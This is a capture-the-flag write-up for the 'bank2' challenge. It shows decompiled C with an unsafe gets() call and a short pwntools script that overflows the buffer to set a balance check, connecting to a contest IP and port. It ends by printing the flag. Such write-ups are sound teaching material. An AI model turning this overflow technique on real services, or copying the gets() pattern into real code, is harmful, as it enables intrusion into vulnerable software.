 ## bank2

#### Solved by hieplpvip

```
nc 61.28.237.24 30203

author: xikhud
```

Open `bank2` with IDA:

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdout, 0);
  Register();
  puts("[+] Good bye!");
  return 0;
}
```

```cpp
void Register()
{
  char name[64]; // [esp+Ch] [ebp-4Ch]
  int balance; // [esp+4Ch] [ebp-Ch]

  balance = 0;
  printf("[+] Please enter your name: ");
  gets(name);
  printf("[+] Thanks for the registration, your balance is %d.\n", balance);
  if ( balance == 420420 )
    getFlag();
}
```

```cpp
void getFlag()
{
  system("cat flag.txt");
}
```

We use buffer overflow to overwrite `balance` with 420420 to pass the check:

```py
from pwn import *
conn = remote('61.28.237.24', 30203)
conn.sendlineafter("name:", b'a' * 64 + p32(420420))
conn.interactive()
```

The flag is `HCMUS-CTF{little_endian_is_fun}`
